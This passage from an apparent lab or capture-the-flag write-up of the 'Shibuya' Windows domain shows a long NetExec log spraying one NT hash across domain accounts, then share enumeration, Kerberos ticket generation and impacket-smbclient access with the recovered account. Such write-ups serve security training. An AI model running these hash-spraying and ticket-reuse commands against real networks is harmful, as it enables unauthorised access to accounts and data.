SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Glenn.Gould:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Max.Clark:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Oliver.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ronald.Martin:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Donald.Dunn:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Alexander.Wilson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Geoffrey.Griffiths:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Olivia.Gibson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mitchell.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Philip.Stephens:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jeremy.Riley:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Louis.Wood:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leanne.Williams:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lisa.Harper:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Marilyn.Jordan:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jenna.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Marie.Chadwick:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Sandra.Ward:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Stacey.Murray:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Katy.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tina.Lee:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Arthur.Cox:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Gareth.Brown:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Gillian.Wallace:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Damien.Thompson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Harry.Turner:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Terry.Green:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jade.Pearson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Hugh.Wright:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jonathan.Pugh:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Melanie.Grant:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jeffrey.Taylor:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lauren.Turner:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jeffrey.Harrison:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tony.Benson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tony.Owens:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Rosie.O'Donnell:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Abdul.Smart:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kyle.Chambers:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Terry.Howard:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Pamela.Knowles:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dylan.Allen:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kerry.Bailey:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Stuart.Fletcher:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Shaun.Campbell:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Beverley.Willis:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Chelsea.Green:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lydia.Bates:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Bernard.Lewis:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Julia.Allen:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Luke.Boyle:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Helen.Dickinson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Bryan.Arnold:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dorothy.Power:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Irene.Nicholson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Georgina.Cameron:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Amber.Webster:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lawrence.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Gavin.Patel:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dylan.Brown:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Janet.Banks:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ann.Davies:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jade.Hunter:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Diane.West:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lynda.Woodward:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Hilary.Hilton:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lisa.Quinn:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Alexandra.Vincent:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kenneth.Cunningham:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tom.Hunt:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Hilary.Davies:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lorraine.Williams:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mathew.Cook:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Chloe.Williams:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Robert.Reynolds:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Marion.Thompson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Callum.Miles:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Alice.Day:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Tracy.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Vanessa.Cooke:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Karen.Stephenson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Vanessa.Dixon:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kelly.Robertson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Timothy.Jones:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Josh.Rees:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leslie.Lloyd:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kayleigh.Roberts:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jonathan.Brady:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leah.Parry:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dale.Thomas:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Eleanor.Hamilton:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kenneth.Coleman:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Christian.Marsden:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Antony.Storey:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Dominic.Wilson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Angela.Grant:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ian.Barker:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Pamela.Bennett:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Billy.Little:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Alan.Butler:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Nigel.Mills:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leanne.Gill:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Stuart.Taylor:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Deborah.Graham:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Mitchell.Winter:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Paula.Davies:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Barbara.Rowley:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lynda.Nash:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kyle.Hill:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lesley.Lynch:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Beth.Baker:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Julie.Davies:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Irene.Allan:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Thomas.Brookes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Russell.Phillips:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Donna.Green:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Natalie.Knowles:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Toby.Lamb:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jayne.Barnes:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Elliott.Watson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Adam.Long:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jean.Allen:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lauren.Walters:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Leanne.Bentley:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Kieran.Miller:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Holly.Bradley:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jodie.Khan:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Billy.Smith:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Jeremy.Howells:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Elliott.Storey:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Denise.Harvey:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Ann.Kaur:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Damian.Marshall:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Colin.Gibson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Georgina.Long:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Bernard.Bevan:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lawrence.Collins:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Lee.Hunt:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Marcus.Collins:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Alexander.Mitchell:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Keith.Wilson:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [-] shibuya.vl\Joan.Taylor:5d8c3d1a20bd63f60f469f6763ca0d50 KDC_ERR_PREAUTH_FAILED 
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\Simon.Watson:5d8c3d1a20bd63f60f469f6763ca0d50 
```

we can spray the credential to different services now

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u Simon.Watson -H '5d8c3d1a20bd63f60f469f6763ca0d50' -k --shares 
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\Simon.Watson:5d8c3d1a20bd63f60f469f6763ca0d50 
SMB         10.129.234.42   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.129.234.42   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.129.234.42   445    AWSJPDC0522      -----           -----------     ------
SMB         10.129.234.42   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.129.234.42   445    AWSJPDC0522      C$                              Default share
SMB         10.129.234.42   445    AWSJPDC0522      images$         READ            
SMB         10.129.234.42   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.129.234.42   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      users           READ         
```

we can generate the `TGT` ticket and export ticket and try to authenticate to ssh their nothing specific in smb `Shares`

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u Simon.Watson -H '5d8c3d1a20bd63f60f469f6763ca0d50' -k --generate-tgt /home/penguin/OSCP/Shibuya/Simon.Watson
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\Simon.Watson:5d8c3d1a20bd63f60f469f6763ca0d50 
SMB         10.129.234.42   445    AWSJPDC0522      [+] TGT saved to: /home/penguin/OSCP/Shibuya/Simon.Watson.ccache
SMB         10.129.234.42   445    AWSJPDC0522      [+] Run the following command to use the TGT: export KRB5CCNAME=/home/penguin/OSCP/Shibuya/Simon.Watson.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ export KRB5CCNAME=/home/penguin/OSCP/Shibuya/Simon.Watson.ccache 

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ klist
Ticket cache: FILE:/home/penguin/OSCP/Shibuya/Simon.Watson.ccache
Default principal: Simon.Watson@SHIBUYA.VL

Valid starting     Expires            Service principal
11/18/26 04:09:25  11/18/26 14:09:25  krbtgt/SHIBUYA.VL@SHIBUYA.VL
        renew until 11/19/26 04:09:25
```

we can try to authenticate ssh no use , same as on the previous account
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ ssh -o GSSAPIAuthentication=yes  Simon.Watson@AWSJPDC0522.shibuya.vl
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Simon.Watson@awsjpdc0522.shibuya.vl's password: 
Permission denied, please try again.
Simon.Watson@awsjpdc0522.shibuya.vl's password: 
Permission denied, please try again.
Simon.Watson@awsjpdc0522.shibuya.vl's password: 
Received disconnect from 10.129.234.42 port 22:2: Too many authentication failures
Disconnected from 10.129.234.42 port 22
[ble: exit 255]
```

> reference - > https://hacktricks.wiki/en/network-services-pentesting/pentesting-ssh.html

we can use impacket-smbclient to authenticate with the TGT we saved
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ impacket-smbclient -k -no-pass shibuya.vl/Simon.Watson@AWSJPDC0522.shibuya.vl
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ impacket-smbclient -k -no-pass shibuya.vl/Simon.Watson@AWSJPDC0522.shibuya.vl
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
images$
IPC$
NETLOGON
SYSVOL
users
# use users
# ls
drw-rw-rw-          0  Sun Feb 16 10:50:59 2025 .
